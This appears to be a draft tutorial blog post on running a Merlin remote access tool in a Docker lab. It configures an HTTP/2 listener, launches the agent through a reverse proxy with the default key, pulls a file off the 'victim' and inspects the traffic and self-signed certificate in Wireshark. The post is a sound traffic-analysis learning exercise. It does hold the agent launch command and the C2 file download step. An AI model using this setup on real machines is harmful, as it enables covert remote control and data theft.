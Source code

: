 ```yaml
---
title: Running a scenario.
description: Draft
date: 2021-07-03
scheduled: 2021-07-03
layout: layouts/post.njk
order: 7
tags: posts
---
```


Let's see how a Remote Access Tool like Merlin communicates! We'll capture and read packets in two scenarios:

    * when the attacker connects straight to the victim,
    * when the attacker connects through our reverse proxy.

First, let's configure the merlin server. Go to the Attacker and open Merlin (remember that you can hit TAB to see all availeable options). Next, type `listeners` and `use http2`. Now we'll configure our HTTPS listener again. Type in `show`. Let's set Interface to our container's IP address, set Port to 5555, and rename it to MerlinListener. Normally you'd change the PSK, the preshared key you use in your first connection to the server, for something stronger but we'll leave it as is.

![merlin http setup](/img/remote/merlin-config.png)

Looks good! But let's wait before starting it.

Start up our Reverse Proxy (remember to adjust IP addresses if you're using docker over a couple of sessions) and let's get on to our Victim. You should open two terminals, one for capturing and the other for connecting.
Start up the capture:

``` bash
tcpdump -s 65535 -i any -v -w my_capture.pcap
```

And in the other terminal let's start the agent. The address that we pass leads to our Reverse Proxy that will pass the traffic from and to our Attacker.

``` bash
./merlinAgent-Linux-x64 -url https://172.17.0.4/merlin -psk 'merlin' -v
```

Let the Agent try to connect to the server a couple of times, simulating a real life scenario, before going to the attacker and starting up our Listener.
We can already see rush of packages just from the connection. If we wait we can see that each new idle check-in from the agent generates another dozen packages.
Before we get a thousand of message packages, let's give our agent something to do. In Merlin type in `interact` and let TAB completion fill out agent ID. Next let's see what files our Victim with `ls`. We can see the `hello.txt` file we put on the Victim earlier. Let's download it back.

![download hello](/img/remote/merlin-job.png)

![agent job](/img/remote/agent-job.png)

Now let's stop stop our agent from the server by typing `exit` and when it does let's stop the packet capture in another window with a `CTRL + C`. Let's transfer the capture from the container to our Desktop, like before:

``` bash
docker cp edf2ed59c20d:/my_capture.pcap C:\Users\User\Desktop\my_capture.pcap
```

Open the file with WireShark and let's see what we captured.

![packet capture](/img/remote/packet-capture.png)

This is a whole lot of packets of seemingly unreadable information, and this isn't a tutorial about reading WireShark output, but we can get some snippets of information out of them because we built this setup.

We can already see the IP address where the communication came from the Victim - *172.17.0.2*, and went to the attacker, or rather the reverse-proxy - *172.17.0.3*.
Next we can see the MAC address - *02:42:ac:11:00:04*.

![ip and mac address](/img/remote/ip-and-mac.png)

If we click on the packet where Info says "Server Hello, Certificate..." we can glance at the certificate the server showed during a handshake. Navigate all the way through the tabs until you see the issuer of the certificate.

![path to certificate issuer](/img/remote/certificate.png)

We can see the nonsense I've typed in during the certificate creation for the reverse-proxy. Inside a browser we'd get a warning that a site uses a self-signed certificate (and we had to use `-k` flag to ignore it when using `curl` command). But without a console there is no warning and so our machine continued sending and receiving packets from the dubious source.
Self signed certificates can be easy to spot and verify, once you get a suspicion.

![closeup on self-signed-certificate](/img/remote/self-signed-cert.png)

RAT's can be very hard to spot since they don't use up your machine's resources so they don't slow it down, and usually don't show up on Task Manegers or are named such that they seem legitimate.

